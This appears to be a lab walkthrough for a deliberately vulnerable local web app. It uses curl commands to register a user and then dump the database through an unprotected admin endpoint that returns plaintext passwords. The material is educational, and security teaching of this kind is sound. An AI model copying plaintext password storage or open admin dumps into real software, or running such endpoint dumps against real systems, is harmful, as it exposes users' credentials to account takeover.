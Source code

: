 ## Prerequisites
First, ensure the vulnerable cryptography server is running with the following command:

```Bash

uvicorn vulnerable_crypto_app:app --reload
```

## Exploitation Steps
The goal is to demonstrate how a data breach exposes user credentials because the application stores passwords in plaintext.

1. Register a User
Before the attack, we register a new user, carlos, with the password MyWeakPassword!. The application will store this password without any hashing.

```Bash

curl -X POST "http://127.0.0.1:8000/register" \
     -H "Content-Type: application/json" \
     -d '{"username": "carlos", "password": "MyWeakPassword!", "full_name": "Carlos Danger"}'
```

Expected Response (Success):

```JSON

{"message":"User carlos registered successfully."}
```

2. Simulate a Data Breach
Next, the attacker simulates a data breach by accessing an insecure administrative endpoint that dumps the entire user database.

```Bash

curl http://127.0.0.1:8000/admin/users/all
```

The server fails to protect the stored data and returns the user records, including the plaintext passwords.

Successful Exploit Response:

```JSON

{
  "carlos": {
    "password": "MyWeakPassword!",
    "full_name": "Carlos Danger"
  }
}
```
3. Analyze the Result
The API has leaked the exact password for the user carlos. An attacker can now use this credential to take over the account or attempt to use it on other services. This confirms a critical Cryptographic Failure.